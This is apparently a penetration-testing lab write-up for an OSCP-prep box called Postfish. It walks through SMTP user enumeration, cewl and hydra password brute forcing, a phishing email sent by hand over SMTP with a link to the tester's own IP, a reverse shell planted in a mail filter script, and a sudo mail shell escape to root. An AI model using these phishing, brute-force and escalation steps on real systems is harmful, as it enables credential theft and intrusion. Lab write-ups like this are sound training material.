**Start 08:15 08-05-2025**

---
```
Scope:
192.168.145.137
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV postfish -sT -T5 --min-rate=5000 -Pn -vvvv -p-                                                                   [0]

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     syn-ack Postfix smtpd
80/tcp  open  http     syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Site doesnt have a title (text/html).
110/tcp open  pop3     syn-ack Dovecot pop3d
|_pop3-capabilities: RESP-CODES STLS PIPELINING AUTH-RESP-CODE USER SASL(PLAIN) CAPA TOP UIDL
143/tcp open  imap     syn-ack Dovecot imapd (Ubuntu)
|_imap-capabilities: LOGIN-REFERRALS more have post-login IMAP4rev1 LITERAL+ AUTH=PLAINA0001 capabilities ID OK STARTTLS ENABLE listed IDLE Pre-login SASL-IR
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap syn-ack Dovecot imapd (Ubuntu)
|_imap-capabilities: LOGIN-REFERRALS more post-login IMAP4rev1 LITERAL+ AUTH=PLAINA0001 capabilities ID OK have ENABLE listed IDLE Pre-login SASL-IR
995/tcp open  ssl/pop3 syn-ack Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE SASL(PLAIN) USER RESP-CODES PIPELINING CAPA TOP UIDL
```

This appears to be a mailing server.

## 80/TCP - HTTP


We get a list of potential usernames.



We will use this list together with `username-anarchy` to try and create a wordlist of potential usernames.



Let's check further



There's nothing else here.

## 25/TCP - SMTP
### User Enum

I inserted my wordlist using `smtp-user-enum` and found all users to be existing:



I tried to brute force these usernames with `hydra` but it took way too long so I reran `smtp-user-enum` for other accounts.



We find some more so we'll add these to our wordlist, since most of these are default I'll add just the non-default ones for now:

```
hr
sales
```

### Cewl - Wordlist Generation

Now instead of guessing what password list to use, we will utilize another tool called `cewl` to generate a password list for us:

```bash
cewl -d 5 -m 3 http://postfish.off/team.html -w cewl.txt
```

## Hydra 



This gave 0 matches, so I created a copy of the wordlist, but with all lowercase:

```bash
tr A-Z a-z < cewl.txt > cewl_lower.txt
```

I went ahead an reran it, slightly modifying my command:



>[!success]
>After waiting for roughly 15 minutes we finally had a result:



>[!note]
>Next time try the username - username combo first......



Hell yeah.

## 110/TCP - POP3s





Let's check out the message.



>[!note]
>the `retr` command needs to be lowercase otherwise it will fail:
>


# Foothold
## Phishing Attack via SMTP

By reading the contents my gut instantly told me this was a *Phishing* attack.

>[!note]
>Since the message implies there will be a **link** sent instead of some file, we can't just send an Office document with a macro like in other cases, instead we'll have to send and embedded link with our own IP in it:

```bash
nc -vn 192.168.145.137 25

helo postfish.off
MAIL FROM: it@postfish.off
RCPT TO: brian.moore@postfish.off
DATA
Subject: Password Reset

reset password here <http://192.168.45.242/>
.
QUIT
```

Then wait for a while and see the following result:



We now have the password for *brian.moore*.

```
brian.moore
EternaLSunshinE
```

# Foothold
## Shell as brian.moore


After our successful phishing attack we gain access to *brian*'s `ssh` instance.

### local.txt



## Enumeration





I notice some non-default groups I am part of.

I tried to look them up but didn't find anything on it:





Nothing out of the ordinary here.

Let's download over `linpeas.sh`.


Interesting!



Yet again

Let's check it out:



# Privilege Escalation
## Shell as filter

Since we're in the `filter` group I was able to edit this script and add a reverse shell script inside:





The change worked, now we have to send another sample mail for this to work.

>[!fail]
>This is the first time that `busybox` didn't work, I ended up changing the payload to a `bash` shell and it worked:
>





## SUID binary



We will be using the bottom one in order to escalate privs

```bash
sudo /usr/bin/mail --exec='!/bin/sh'
```



### proof.txt



>[!summary]
>Super fun box, learned a lot! 
>- New phishing techniques
>- Found new `cewl` tool which is super handy!
>- Refined `hydra` techniques

---

**Finished 10:18 08-05-2025**

[^Links]: [[OSCP Prep]]

#SUID #phishing #pop3 #smtp #cewl #hydra 